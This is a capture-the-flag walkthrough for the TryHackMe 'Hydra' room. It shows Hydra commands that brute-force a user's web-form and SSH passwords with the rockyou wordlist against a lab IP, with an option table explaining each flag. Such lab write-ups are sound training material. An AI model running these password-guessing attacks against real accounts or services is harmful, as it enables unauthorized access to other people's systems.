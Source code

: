 # Hydra

![image](https://user-images.githubusercontent.com/44063862/89100153-73cf4d00-d427-11ea-9502-892d4530aeb1.png)

## :link: Link

[Hydra](https://tryhackme.com/room/hydra)

## Walkthrough

### Question 1

> Use Hydra to bruteforce molly's web password. What is flag 1?

![image](https://user-images.githubusercontent.com/44063862/89100201-da546b00-d427-11ea-97b2-156f581e3102.png)

![image](https://user-images.githubusercontent.com/44063862/89100227-066fec00-d428-11ea-9e0c-08238a1cb8e3.png)

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.194.251 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V -t 20
```

|      Option      |         Description             |
|:----------------:| :-----------------------------: |
|-l                | molly                           | 
|-P                | /usr/share/wordlists/rockyou.txt| 
|Target IP         | 10.10.194.251                   | 
|Request Method    | http-post-form                  |
|Page              | /login                          |
|User Parameter    | username=^USER^                 |
|Password Parameter| password=^PASS^                 |
|-t                | Threads (20)                    |

![image](https://user-images.githubusercontent.com/44063862/89100474-c7429a80-d429-11ea-927f-33eff9e3830c.png)

### Question 2
	
Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -t 4 -P /root/List/rockyou.txt -l molly ssh://10.10.194.251
```

![image](https://user-images.githubusercontent.com/44063862/89100537-3fa95b80-d42a-11ea-846d-cedc8a68fc8b.png)

![image](https://user-images.githubusercontent.com/44063862/89100556-64053800-d42a-11ea-8ae9-b271d2348781.png)

Okay, Thats all for Hydra. Thank you for reading. :white_flower:

**By _AdaniKamal_**
